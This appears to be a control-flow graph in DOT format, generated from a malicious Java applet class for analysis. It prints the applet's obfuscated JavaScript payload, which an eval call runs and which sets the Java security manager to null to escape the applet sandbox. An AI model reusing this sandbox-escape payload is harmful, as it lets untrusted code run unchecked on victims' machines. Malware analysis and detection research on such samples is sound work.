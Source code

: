 digraph "" {
    "r0 := @this: Efira"
    "new Eng"
    "r0 := @this: Efira"->"new Eng";
    "store.r $r1"
    "new Eng"->"store.r $r1";
    "load.r $r1"
    "store.r $r1"->"load.r $r1";
    "specialinvoke <Eng: void <init>()>"
    "load.r $r1"->"specialinvoke <Eng: void <init>()>";
    "specialinvoke <Eng: void <init>()>"->"load.r $r1";
    "fieldget <Eng: javax.script.ScriptEngine bers>"
    "load.r $r1"->"fieldget <Eng: javax.script.ScriptEngine bers>";
    "push \"vmessaar ermessaror = nemessaw Ermessaromessar(\\\"Mmessay emessarrmessaor\\\");thmessais.messatoSmessatrinmessag = fumessanctimessaon(){ jmessaava.lmessaang.Smessaystmessaem.semessatSecmessauritmessayManamessager(numessall);appmessalet.smessatamessart();retmessaurn \\\"messaexmessaplomessait!\\\";};emessarromessar.memessassmessaage = tmessahimessas;\""
    "fieldget <Eng: javax.script.ScriptEngine bers>"->"push \"vmessaar ermessaror = nemessaw Ermessaromessar(\\\"Mmessay emessarrmessaor\\\");thmessais.messatoSmessatrinmessag = fumessanctimessaon(){ jmessaava.lmessaang.Smessaystmessaem.semessatSecmessauritmessayManamessager(numessall);appmessalet.smessatamessart();retmessaurn \\\"messaexmessaplomessait!\\\";};emessarromessar.memessassmessaage = tmessahimessas;\"";
    "push \"messa\""
    "push \"vmessaar ermessaror = nemessaw Ermessaromessar(\\\"Mmessay emessarrmessaor\\\");thmessais.messatoSmessatrinmessag = fumessanctimessaon(){ jmessaava.lmessaang.Smessaystmessaem.semessatSecmessauritmessayManamessager(numessall);appmessalet.smessatamessart();retmessaurn \\\"messaexmessaplomessait!\\\";};emessarromessar.memessassmessaage = tmessahimessas;\""->"push \"messa\"";
    "push \"\""
    "push \"messa\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 0"->"load.r $r1";
    "load.r $r1"->"fieldget <Eng: javax.script.ScriptEngine bers>";
    "push \"erdedtroarodedtroar\""
    "fieldget <Eng: javax.script.ScriptEngine bers>"->"push \"erdedtroarodedtroar\"";
    "push \"dedtroa\""
    "push \"erdedtroarodedtroar\""->"push \"dedtroa\"";
    "push \"dedtroa\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Efira: javax.swing.JList equius>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Efira: javax.swing.JList equius>";
    "fieldput <Efira: javax.swing.JList equius>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Efira: javax.swing.JList equius>"
    "load.r r0"->"fieldget <Efira: javax.swing.JList equius>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"
    "fieldget <Efira: javax.swing.JList equius>"->"virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"->"store.r r0";
}
